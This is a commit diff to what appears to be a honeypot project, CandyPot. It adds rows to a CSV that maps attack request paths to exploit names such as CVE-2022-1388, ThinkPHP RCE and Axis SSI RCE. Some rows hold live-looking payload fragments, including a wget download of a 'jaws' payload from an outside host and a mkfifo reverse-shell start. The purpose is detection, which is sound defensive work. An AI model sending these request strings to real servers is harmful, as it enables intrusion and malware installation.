

Before and after one commit to 9carlo6/CandyPot, a CSV file: exploit_code.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Aggiunta di Exploit

```diff
--- a/exploit_code.csv
+++ b/exploit_code.csv
@@ -22 +22,9 @@ EXP_20,clientapi.ipip.net,shock attack,attacker gets a shell on your nginx box t
 EXP_21,admin/assets/js/views/login.js,Sangoma FreePBX,many requests for the resource /admin/assets/js/views/login.js were identified and captured in Radware’s Threat Deception Network. This resource belongs to Sangoma FreePBX code and it looks like the attackers are trying to detect vulnerable FreePBX servers and exploit one of the known vulnerabilities.
+EXP_22,mgmt/tm/util/bash,CVE-2022-1388,This vulnerability may allow an unauthenticated attacker with network access to the BIG-IP system through the management port and/or self IP addresses to execute arbitrary system commands create or delete files or disable services.
+EXP_23,shell?cd+/tmp;rm+-rf+*;wget+v1.kannimanelaji.com/jaws,Trojan,ET TROJAN JAWS Webserver Unauthenticated Shell Command Execution.
+EXP_24,incl/image_test.shtml?camnbr=%3c%21--%23exec%20cmd=%22mkfifo%20/tmp/s,Axis SSI RCE,Axis SSI Remote Command Execution.
+EXP_25,index.php?s=/Index/\\think\\app/invokefunction&function=call_user_func_array&vars[0],THINKPHP RCE,THINKPHP Remote Command Execution.
+EXP_26,?a=fetch&content=<php>die(@md5(HelloThinkCMF))</php>,,
+EXP_27,Autodiscover/Autodiscover.xml,Autodiscover user passwords,Microsoft Exchange Autodiscover flaw reveals users' passwords.
+EXP_28,_ignition/execute-solution,CVE-2021-3129,Remote code execution
+EXP_29,actuator/gateway/routes,CVE-2022-22947,Spring Cloud Gateway Code Injection Vulnerability
```
